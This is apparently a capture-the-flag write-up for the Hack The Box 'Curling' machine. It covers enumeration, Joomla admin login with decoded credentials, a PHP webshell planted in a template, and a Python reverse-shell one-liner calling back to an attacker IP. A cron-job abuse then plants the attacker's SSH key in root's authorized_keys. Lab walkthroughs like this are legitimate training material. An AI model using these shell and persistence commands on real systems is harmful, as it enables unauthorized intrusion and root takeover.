 # [Curling](https://app.hackthebox.com/machines/Curling)

```bash
nmap -p- --min-rate 5000 10.10.10.150 -Pn 
```

![Alt text](img/image.png)

After knowing open ports (22,80), let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.150 
```

![Alt text](img/image-1.png)


Let's do directory enumeration for this target via `gobuster`.

```bash
gobuster dir -u http://10.10.10.150/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x txt -t 40
```

![Alt text](img/image-2.png)


I browse the `/secret.txt` file and see some encoded data.

![Alt text](img/image-3.png)


I decode this on [CyberChef](https://cyberchef.io/).

![Alt text](img/image-4.png)

Curling2018!

From my enumeration this possible password for '**floris**' user.

![Alt text](img/image-5.png)


Yes, that's correct let's use this credentials to access `/administrator` endpoint which is **Joomla!** application.

floris: Curling2018!

![Alt text](img/image-6.png)


Let's try to upload `webshell` into here.

For this, go to 'Extension' -> 'Templates (2x)', select what you want.

I select 'Beez3' one to edit templates.

![Alt text](img/image-7.png)


I change `error.php` file's content with `.php` webshell.

![Alt text](img/image-8.png)

Now browsing `/templates/beez3/error.php?cmd=id`, we got remote code execution.

![Alt text](img/image-9.png)


Let's add our reverse shell here as URL encoded.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Alt text](img/image-10.png)


Hola, I got reverse shell from port (1337).

![Alt text](img/image-11.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-12.png)


I found `password_backup` file on `floris` user's home folder.

![Alt text](img/image-13.png)


Let's download this file into our attacker's machine.

First, open http server to serve this file.
```bash
python3 -m http.server --bind 10.10.10.150 8080
```

![Alt text](img/image-14.png)


Then, download this file via `wget` command.
```bash
wget http://10.10.10.150:8080/password_backup
```

![Alt text](img/image-15.png)

I just take this file and paste into [Cyberchef](https://cyberchef.io).

![Alt text](img/image-16.png)

I can the file's content, maybe this password of `floris` user.

floris: 5d<wdCbdZu)|hChXll


Let's switch into `floris` user.

user.txt

![Alt text](img/image-17.png)


I just upload `pspy64` into machine to see background cronjobs.

![Alt text](img/image-18.png)

I see that there is job that copies data from `url` input and paste this data into `output` file on machine.

For privilege escalation, I just write my machine's public key file into here and paste into location of `root` user's `authorized_keys` file.

```bash
output="/root/.ssh/authorized_keys"
url="http://10.10.16.7:8080/id_rsa.pub"
```

![Alt text](img/image-19.png)


While my public key is triggered, it means my public key is already added into `authorized_keys` file.

![Alt text](img/image-20.png)

Now, we can connect into machine via private key of attacker (id_rsa) by using `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.150
```

root.txt

![Alt text](img/image-21.png)
